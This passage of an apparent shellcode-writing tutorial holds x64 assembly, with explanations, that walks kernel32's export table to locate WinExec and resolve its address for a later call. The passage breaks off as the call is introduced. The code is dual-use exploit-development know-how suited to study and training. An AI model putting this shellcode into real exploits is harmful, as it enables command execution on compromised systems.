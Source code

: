```
"   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
"kernel32findfunction: "
" jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
"   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
"   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
"   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
"   dec rcx;"                       # Decrement the loop counter
"   mov rax, 0x00636578456E6957;"   # Load the ASCII value of 'WinExec' into RAX for comparison          
"   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
"   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
 
"FunctionNameFound: "
"  nop;"
```

### Finding the WinExec Address

The position where we found the function name in the list will remain stored in the `RCX` register. Following this, we look up the function ordinal based on this index. An ordinal serves as the identifier for a function within a DLL. While we could have conducted a lookup based on this ordinal instead of the function name, it's worth noting that this value might change in future DLL releases.

```
"FunctionNameFound: "
# Entry point after finding the target function name 'WinExec'
"   xor r11, r11;"
"   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
# Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
"   inc rcx;"
"   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
# Preparing to fetch the actual function address from AddressOfFunctions
"   xor r11, r11;"
"   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
"   mov eax, [r11+r13*4];"          # Fetch the function address RVA using the ordinal as an index
"   add rax, r8;"                   # Convert function address RVA to absolute address
"   mov r14, rax;"                  # Store the resolved function address in R14 for later use
```

### Call WinExec

Once the address of the function is stored in the `R14` register, WinExec can be called. This function requires the following input parameters, taken from the [Microsoft documentation](https://learn.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-winexec){:target="_blank"}.
